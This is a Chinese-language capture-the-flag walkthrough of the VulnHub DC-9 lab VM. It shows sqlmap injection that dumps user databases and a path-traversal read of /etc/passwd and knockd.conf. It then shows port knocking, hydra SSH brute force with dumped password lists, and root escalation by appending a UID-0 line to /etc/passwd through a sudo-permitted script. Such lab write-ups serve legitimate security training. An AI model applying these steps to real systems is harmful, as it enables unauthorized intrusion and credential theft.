# DC 9

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-9,412/

## 知识点

- ssh端口敲门-knock服务
- sudo-l 提权

## 信息收集

```bash
ifconfig eth0 # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.164
```


## 漏洞利用




尝试sqlmap进行post注入

```bash
sqlmap -r sql.txt
sqlmap -r sql.txt --dbs
sqlmap -r sql.txt -D Staff --dump
sqlmap -r sql.txt -D users --dump
```





taff 库跑出了个 hash 856f5de590ef37314e7c3bdf6f8a66dc ,md5解密后是 transorbital1

拿去登录admin用户



猜测存在文件包含，fuzz参数

```
http://10.30.0.164/manage.php?file=../../../../../etc/passwd
```



存在任意文件读取漏洞

可以看到读取出来的etc/password用户与前面sql跑出来的一样，尝试ssh登录

```bash
ssh marym@10.30.0.164
# ssh: connect to host 10.30.0.164 port 22: Connection refused
```

ssh状态是filtered，目测是被服务器安装了knockd工具隐藏了，knockd配置文件：`/etc/knockd.conf`

访问
`http://10.30.0.164/manage.php?file=../../../../../etc/knockd.conf`



需要进行端口敲门，参考文章如下：https://www.cnblogs.com/wsjhk/p/5508051.html

```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 10.30.0.164; done
nmap -A -p- -T4 10.30.0.164
```



可以看到SSH端口开放连接，尝试爆破登录

```
marym        3kfs86sfd
julied       468sfdfsd2
fredf        4sfd87sfd1
barneyr      RocksOff
tomc         TC&TheBoyz
jerrym       B8m#48sd
wilmaf       Pebbles
bettyr       BamBam01
chandlerb    UrAG0D!
joeyt        Passw0rd
rachelg      yN72#dsd
rossg        ILoveRachel
monicag      3248dsds7s
phoebeb      smellycats
scoots       YR3BVxxxw87
janitor      Ilovepeepee
janitor2     Hawaii-Five-0
```

```bash
hydra -L user -P pass ssh://10.30.0.164
```



```
[22][ssh] host: 10.30.0.164   login: chandlerb   password: UrAG0D!
[22][ssh] host: 10.30.0.164   login: joeyt   password: Passw0rd
[22][ssh] host: 10.30.0.164   login: janitor   password: Ilovepeepee
```

在janitor用户下发现密码文件



```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

```bash
hydra -L user -P pass1 ssh://10.30.0.164
```

发现新的账号
```
[22][ssh] host: 10.30.0.164   login: fredf   password: B4-Tru3-001
```

```bash
sudo -l
cd /opt/devstuff/dist/test/
type test
cat /opt/devstuff/test.py
```



```py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

```bash
echo 'test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/test
cd /opt/devstuff/dist/test/
sudo ./test /tmp/test /etc/passwd
su test
Password: toor

cd /root
ls
cat theflag.txt
```


## 参考链接

- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/nbpk5u
- http://www.kxsy.work/2021/07/29/shen-tou-dc-9/
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC9-WalkThrough.md